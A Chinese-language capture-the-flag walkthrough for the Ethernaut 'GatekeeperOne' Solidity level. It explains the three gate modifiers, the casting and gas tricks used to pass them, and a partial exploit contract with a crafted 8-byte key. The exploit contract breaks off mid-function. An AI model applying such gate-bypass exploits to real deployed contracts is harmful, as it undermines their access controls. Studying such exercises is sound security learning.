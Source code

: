 ## 5. 攻击调用图



# 第十三关：GatekeeperOne

### 本关知识点：
```
1. 类型强制转换
2. gasleft()的计算方式
3. 区分msg.sender和tx.origin
```

## 1. 题目要求
` 越过守门人并且注册为一个参赛者来完成这一关.`

## 2. 代码功能解读
```
1. 修饰器gateOne：合约调用者不等于交易的发起者
2. 修饰器gateTwo：当前剩余的gas剩余量求余8191等于0
3. 修饰器gateThree：
	1. 输入的8字节大小的数据，强转为uint64类型后再强转uint32后，仍然等于强转为uint64类型后再强转uint16
	2. 输入的8字节大小的数据，强转为uint64类型后再强转uint32后，仍然等于强转为uint64类型
	3. 输入的8字节大小的数据，强转为uint64类型后再强转uint32后，等于tx.origin强转为uint160后再强转为uint16
4. enter方法：输入的8字节数据通过以上三个修饰器的后设置entrant = tx.origin并返回true。
```


## 3. 漏洞分析
```
成功调用enter方法
	创建攻击合约调用绕开gateOne的检测
	控制gasleft使求余8191为0
	我们可以根据变量的强制转换方式，找到一个符合以上三个条件的8字节变量
```


## 4. 攻击方法
```
contract Exploit {

  GatekeeperOne one;

  // ffffffffffffffff == 000000000000ffff  >> 中间4个肯定为0

  // ffffffffffffffff != 0000000f0000ffff  >> 前8字符肯定有值

  // 0000000f0000ffff == ffffffff0000ffff(origin=)  >>

  // uint16(tx.origin000000000000-------- = _gateKey)

  uint64 number = 0xffffffff0000ffff;

  constructor(address addr) {

    one = GatekeeperOne(addr);

  }

  function attack()public {

    bytes8 value;
```